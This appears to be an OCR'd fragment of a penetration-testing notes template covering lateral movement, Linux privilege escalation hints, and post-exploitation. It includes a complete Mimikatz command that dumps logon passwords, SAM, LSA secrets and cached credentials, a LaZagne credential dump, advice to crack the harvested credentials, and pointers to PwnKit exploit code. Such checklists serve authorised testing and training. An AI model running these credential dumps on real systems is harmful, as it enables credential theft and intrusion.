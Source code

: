PtC
	-

Domain Trusts
	-

## Lateral Movement #1
```
NOTE: if using su, specify -l or - to simulate user logon

# Use this section if we switch users
```

sudo -l  `# or whoami /priv...`
	-

env
	-

repeat enumeration process as user -- focus on user specific directories, groups, etc...



## PrivEsc
```
# Be sure to check common vectors first (to ALL users, including root) 
	password reuse, user:user cred combos, ssh key reuse
# Try polkit (Pwnkit), especially when attempting kernel exploits github.com/ly4k/PwnKit | /joeammond/CVE-2021-4034 (python version)
# /tmp might be mounted with noexec
# sudo -l binaries if you cannot find anything, try googling <binary> CVE
```
#### Attempt 1: <>


## Post-Exploitation
`# Run these as administrator!!!`

#### Mimikatz Dump
```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::credman" "sekurlsa::ekeys" "lsadump::sam" "lsadump::lsa" "lsadump::cache" "lsadump::secrets" "exit"
```

#### LaZagne Dump
```powershell
.\LaZagne.exe all
```

#### Crack all creds found
Use john AND crackstation

#### Run ligolo before AD attacks (we need DC-IP)
